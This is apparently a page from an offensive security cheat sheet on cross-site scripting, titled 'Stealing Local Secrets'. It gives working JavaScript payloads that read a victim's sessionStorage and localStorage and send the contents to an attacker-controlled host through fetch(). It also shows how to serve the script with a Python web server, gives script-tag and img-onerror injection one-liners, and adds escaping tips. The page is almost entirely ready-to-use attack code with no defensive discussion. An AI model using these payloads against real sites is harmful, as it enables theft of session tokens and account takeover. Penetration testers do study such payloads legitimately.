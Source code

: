 ```yaml
---
title: Stealing Local Secrets
layout: default
parent: XSS
has_children: false
nav_order: 2
---
```


<h1><b>SessionStorage</b></h1>
(data is kept only until tab is closed)

<h2>Hosting method:</h2>

1. First create a file name sessionstorage.js with the following content:
```
let data = JSON.stringify(sessionStorage)
let encodedData = encodeURIComponent(data)
fetch("http://domain/?ss=" + encodedData)
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src="http://ownIP/sessionstorage.js"></script>`

<h2>One liner alternative:</h2>

1. Replace domain with domain you control:
`<img src="x" onerror="fetch('http://domain/ls=?'+encodeURIComponent(JSON.stringify(sessionStorage)))">`

2. Note that can use either single quote or a backslash to escape the double quotes inside double quotes. Also if in URL need to encode the plus using %2b.


<h1><b>LocalStorage</b></h1>
(data is kept until it is explicitly deleted)

<h2>Hosting method:</h2>

1. First create a file name localstorage.js with the following content:
```
let data = JSON.stringify(localStorage)
let encodedData = encodeURIComponent(data)
fetch("http://domain/?ls=" + encodedData)
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src=http://ownIP/localstorage.js></script>`

<h2>One liner alternative:</h2>

1. Replace domain with domain you control:
`<img src="x" onerror="fetch('http://domain/ls=?'+encodeURIComponent(JSON.stringify(localStorage)))">`

2. Note that can use either single quote or a backslash to escape the double quotes inside double quotes. Also if in URL need to encode the plus using %2b.